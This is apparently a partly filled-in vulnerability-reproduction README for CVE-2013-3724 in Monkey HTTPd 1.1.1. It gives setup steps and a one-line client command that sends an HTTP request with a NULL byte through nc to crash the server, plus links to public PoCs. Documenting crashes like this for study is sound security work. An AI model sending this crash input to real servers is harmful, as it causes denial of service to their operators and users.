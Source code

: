 # CVE-2013-3724

## Experiment Environment

CentOS 6.5

## INSTALL & Configuration

```
wget
tar -xvf 
cd monkey-1.1.1/
```

## Problems in Installation & Configuration

## How to trigger vulnerability

Server:

```
./bin/monkey
```

Client:

```
ruby -e 'puts "GET /\x00 HTTP/1.1\r\n\r\n"'|nc localhost 2001
```

## PoCs

[Monkey HTTPd 1.1.1 - Crash (PoC)](https://www.exploit-db.com/exploits/25837/)

[Monkey HTTP Daemon NULL Byte Denial of Service Vulnerability](https://www.securityfocus.com/bid/60210/exploit)

[Bug 471906 (CVE-2013-3724) - <www-servers/monkeyd-1.2.2 : Denial of Service Vulnerability (CVE-2013-3724)](https://bugs.gentoo.org/471906)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

## References
